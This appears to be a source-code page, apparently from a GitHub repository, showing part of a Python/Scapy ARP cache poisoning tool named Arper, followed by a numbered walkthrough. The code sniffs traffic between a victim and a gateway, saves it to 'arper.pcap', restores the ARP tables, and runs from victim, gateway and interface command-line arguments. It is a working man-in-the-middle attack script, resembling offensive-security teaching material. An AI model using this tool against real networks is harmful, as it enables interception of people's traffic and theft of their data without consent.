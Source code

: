 ```python
        bpf_filter = "ip host %s" % victim

        # sniffs for a number of packets
        packets = sniff(count=count, filter=bpf_filter, iface=self.interface)

        # Once we’ve captured the packets, we write them to a file called "arper.pcap"
        wrpcap('arper.pcap', packets)
        print('Got the packets')

        # restore the ARP tables to their original values; terminate the poisoning thread
        self.restore()
        self.poison_thread.terminate()
        print('Finished.')

    """"
    the restore method puts the victim and gateway machines back to their original state by sending correct ARP information to each machine:
    """
    def restore(self):
        print('Restoring ARP tables...')
        
        # sends the original values for the gateway IP and MAC addresses to the victim
        send(ARP(
        op=2,
        psrc=self.gateway,
        hwsrc=self.gatewaymac,
        pdst=self.victim,
        hwdst='ff:ff:ff:ff:ff:ff'),
        count=5)

        # sends the original values for the victim’s IP and MAC to the gateway
        send(ARP(
            op=2,
            psrc=self.victim,
            hwsrc=self.victimmac,
            pdst=self.gateway,
            hwdst='ff:ff:ff:ff:ff:ff'),
            count=5)      

if __name__ == '__main__':
    (victim, gateway, interface) = (sys.argv[1], sys.argv[2], sys.argv[3])
    myarp = Arper(victim, gateway, interface)
    myarp.run()
```

1. The code defines a class called `Arper`.
2. The `Arper` class is initialized with the IP addresses of the victim and the gateway, as well as the network interface to use.
3. The `run()` method of the `Arper` class is called to start the ARP cache poisoning attack.
4. The `poison()` method of the `Arper` class is called to create two ARP packets, one for the victim and one for the gateway, and send them to their respective targets.
5. The `sniff()` method of the `Arper` class is used to capture network traffic that flows between the victim and the gateway.
6. The packets that are captured by the `sniff()` method are saved to a file called "arper.pcap".
7. The `restore()` method of the `Arper` class is called to put the victim and gateway computers back to their original state by sending correct ARP information to each machine.
8. To use this code, the user must provide the IP addresses of the victim and the gateway, as well as the network interface to use, as command-line arguments.
